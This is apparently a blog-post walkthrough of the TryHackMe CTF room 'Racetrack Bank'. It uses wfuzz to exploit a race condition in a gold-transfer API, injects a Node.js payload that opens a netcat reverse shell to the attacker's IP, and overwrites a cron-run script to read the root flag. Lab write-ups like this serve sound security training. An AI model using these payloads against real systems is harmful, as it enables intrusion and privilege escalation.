 ```yaml
---
layout: post
title: AttackerKB & Source | Writeup
categories: CTF
author: ThelastVvV
date: '2020-07-11 18:42:53 +0800'
tags:
  - CTF
  - CyberSecurity
  - TryHackMe
published: true
---
```

- [Racetrack Bank](#racetrack-bank)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Reverse shell](#reverse-shell)
- [Flags](#flags)

<!-- toc -->


### Racetrack Bank
Hallå gubbar, this one is a lil bit difficult but hey we can do it specially if you want to learn more and practice on race condition vulnerabilities ... check the box  Racetrack Bank

### Enumeration


After we scan using Nmap we found 80 port open = http

```sh
http:/ip-box:80
```




then it will redirect you to the login page
we found other 2 pages 
give gold ( to send gold to other users) / purchase (buy premium ) 





We also have 1 gold ....

Nothing else so what we need to do is find out the premium features but how is that ?

Drom the description and title of the box is possible to say that there's race conditions vulnerabilities 

so let fuzz it!!

### Exploitation

How ?
we need to fuzz and send multi requests to transfer gold from an account to an other 
Result:
Farming gold 

What we need ?

1. Creating accounts
2. Cookies id tag
3. Loop requests
4. Buy premium


i will try to make it easy for you 

1. create account ( test22 ) also create an other account in private tab (test99)

we need to intercept the gold transfer request using BURPYYY...


2. Now we got cookie id tag (request)

3. Loop requests in this case we will use wfuzz 

but first create txt file and each line should have number 1 ( 1 gold remember ) and you should have 20 000 line 

" Dont worry i said i will make it easy for you "

https://pastebin.com/MxnwWnWG

 command :
 
```sh
wfuzz -w /root/Desktop/gold.txt -u http://Box-ip/api/givegold -H "Content-Type: application/x-www-form-urlencoded" -b "Cookie ID" -d "user=test99&amount=FUZZ"
```


| Options      | Meaning       |
| ------------- |:-------------:|
|-w| wordlist|
|-u| url|
|-H |header|
|-b |cookie|
|-d |postdata |

So don't waste too much time going back from an account t oan other 

just once you reach 600 gold change 1 gold to 6 gold in text file 

also send gold from account test22 to test99 

also send back 600 from test99 without fuzzing it 

then go back to test22 and fuzz it again 

4. so in 3 steps you will have more 10k gold enough to buy premium !



### Reverse shell

To be frank i tried many injections command but nothing worked until checked source code (node.js)

so just google node.js reverse shell


```sh
http://Ip-box/premuimfeatures.html?ans=require("child_process").exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR-IP PORT >/tmp/f')
```

voila!




### Flags

we got the user flag :
```sh
~$ cat  user.txt
```
Now we need to privesc to root but i'm lazy specially late nights so just searched for backup files and we find 
```sh/cleanup/```file called ```cleanupscript.sh``` that runs every minute.

So we can optin to get second reverse shell as root or copy and output root flag
 
so you either 
```sh 
rm cleanupscript.sh
```  
or
```sh
mv cleanupscript.sh > cleanupscript.sh.backup ( check dogcat room similar)
```

then
```sh
echo 'cat /root/root.txt > /home/brian/root_flag.txt' > cleanupscript.sh
```
```sh
chmod 777 cleanupscript.sh
```

Run it and wait 1 min then check for for output


See you next time ......

